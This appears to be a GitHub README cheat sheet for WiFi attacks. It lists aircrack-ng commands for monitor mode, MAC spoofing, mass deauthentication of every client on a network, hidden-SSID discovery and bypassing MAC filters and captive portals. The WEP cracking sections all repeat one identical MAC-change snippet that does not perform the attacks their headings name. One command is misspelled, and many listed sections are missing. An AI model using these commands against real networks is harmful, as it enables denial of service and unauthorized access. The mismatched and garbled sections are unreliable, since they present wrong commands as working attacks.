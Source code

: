 ## Table of Contents

* [General WiFi Information](#general-wifi-information)
* [Enabling Monitor mode](#enabling-monitor-mode)
* [Attack/PenTesting](#attackpentesting)
  * [Pre-connection Attacks](#Pre-connection-Attacks)
    * [MAC address changing](#MAC-address-changing)
    * [Deauthenticating All Clients From Protected WiFi Network](#Deauthenticating-All-Clients-From-Protected-WiFi-Network)
    * [Deauthenticating a Client From Protected WiFi Networks](#Deauthenticating-a-Client-From-Protected-WiFi-Networks)
  * [Gaining Access](#Gaining-Access)
    * [Discovering Names of Hidden Networks](#Discovering-Names-of-Hidden-Networks)
    * [Bypassing Mac Filtering (Blacklists & Whitelists)](#Bypassing-Mac-Filtering-(Blacklists-&-Whitelists))
    * [Bypassing Captive portals](#Bypassing-Captive-portals)
	* [WEP ](#others)
	* [WPA/WPA 2 ](#others)
	* [WPA/WPA2 Enterpise](#others)
	* [Fake Access Point](#others)
  * [Post-connection Attacks](#injection)
    * [Capture data](#wepwpawpa2)
    * [Information Gathering](#wps)
    * [Bypass HTTPs](#others)
	* [Bypass router-side security features ](#others)
	* [MITM Attack ](#others)
	* [ARP spoofing](#others)
	* [DNS spoofing](#others)
	* [DoS Attack ](#others)
	* [Data Modification ](#others)
	* [Sniffing Cookies](#others)
	* [Session Hijacking](#others)
	* [Other Attacks](#others)
## Enabling Monitor mode
```Bash
  > iwconfig
  > airmon-ng check kill  
  > airmon-ng start wlan1 
  > airodump-ng wlan1mon 
    OR
  > airodump-ng --band a wlan1mon (show all type of wifi networks 5 Ghz or 2.4 Ghz)
  ```
  ## Pre-connection Attacks
### MAC address changing
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
 ### Deauthenticating All Clients From Protected WiFi Network
```Bash
  > airodump-ng -bssid 44:55:tt:ee:ee:bb --channel 11 wlan0
  > aireplay-ng --deauth 10000000 -a 44:55:tt:ee:ee:bb wlan0  
  ```
### Deauthenticating a Client From Protected WiFi Networks
```Bash
  > aireplay-ng --deauth 10000000 -a 44:55:tt:ee:ee:bb -c 22:dd:33:44:55:66 wlan0  
  ```
  ## Gaining Access
 ### Discovering Names of Hidden Networks
```Bash
  > airodump-ng --bssid 44:55:tt:ee:ee:bb --channel 6 wlan0
  > airoplay-ng --deauth 4 -a 44:55:tt:ee:ee:bb -c 22:dd:33:44:55:66 wlan0  
  ```
 ### Bypassing Mac Filtering (Blacklists & Whitelists)
```Bash
  > ifconfig wlan0 down
  > macchanger -m 22:dd:33:44:55:66 wlan0  
  ```
  ### Bypassing Captive portals
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
  ### WEP 
  Method 1 - Fake Authentication Attack
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
  Method 2 - ARP Replay Attack
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
  Method 3 - Chop Chop Attack
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
  Method 4 - Fragmentation Attack
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
  Method 5 - SKA (Shared Key Authentication) Type Cracking
```Bash
  > ifconfig wlan0 down
  > ifconfig wlan0 hw ether 00:ff:ff:ff:44:55  
  > ifconfig wlan0 up 
  > ifconfig wlan0 
  ```
